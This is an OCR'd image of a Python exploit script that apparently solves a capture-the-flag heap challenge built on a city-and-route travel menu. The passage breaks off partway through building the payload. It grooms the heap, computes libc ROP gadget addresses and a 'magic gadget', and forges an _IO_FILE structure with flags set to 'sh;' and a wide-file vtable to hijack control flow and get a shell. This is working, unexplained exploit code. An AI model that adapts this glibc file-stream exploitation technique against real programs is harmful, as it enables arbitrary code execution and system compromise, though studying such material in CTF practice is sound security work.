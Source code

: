 ```python

delet(b"nanning", b"nanning")
delet(b"changsha", b"changsha")
add(
    b"plane",
    b"nanning",
    b"nanning",
    999,
    flat({0x500: [0x520, 0x521, 0x1, 0x100000000003E7]}),
)

add(b"car", b"nanning", b"fuzhou", 999, b"d")

add(b"train", b"guangzhou", b"fuzhou", 999, b"d")
add(b"plane", b"guangzhou", b"guangzhou", 999, b"d")
add(b"plane", b"guangzhou", b"guangzhou", 999, b"d")

delet(b"guangzhou", b"fuzhou")
add(b"plane", b"guangzhou", b"guangzhou", 999, b"d")
delet(b"nanning", b"fuzhou")

cmd(4)
ru(b"Please input the city name\n")
sl(b"nanning")
ru(b"Please input the city name\n")
sl(b"guangzhou")
ru(b"Which one do you want to change?\n")
sl(b"0")
ru(b"How far?\n")
sl(b"10")
ru(b"Note:\n")

# 16a06a:>  48 8b 6f 48          >  mov    rbp,QWORD PTR [rdi+0x48]
# 16a06e:>  48 8b 45 18          >  mov    rax,QWORD PTR [rbp+0x18]
# 16a072:>  4c 8d 6d 10          >  lea    r13,[rbp+0x10]
# 16a076:>  c7 45 10 00 00 00 00 >  mov    DWORD PTR [rbp+0x10],0x0
# 16a07d:>  4c 89 ef             >  mov    rdi,r13
# 16a080:>  ff 50 28             >  call   QWORD PTR [rax+0x28]

magic_gadget = libc_base + 0x16A06A
leave_ret = libc_base + 0x000000000004DA83
add_rsp_0x38_ret = libc_base + 0x000000000005A44E
pop_rdi_ret = libc_base + 0x000000000002A3E5
pop_rsi_ret = libc_base + 0x000000000002BE51
pop_rdx_2_ret = libc_base + 0x000000000011F2E7

_IO_wfile_jumps = libc_base + libc.sym._IO_wfile_jumps
_lock = libc_base + 0x21CA70
fake_IO_FILE = heap_base + 0x3390

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._IO_read_ptr = 0x521
f1._IO_read_end = libc_base + 0x21ACE0
f1._IO_read_base = libc_base + 0x21ACE0
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xE0
f1.vtable = _IO_wfile_jumps

f1._IO_save_base = fake_IO_FILE + 0x520 + 0x100

payload = flat(
    {
```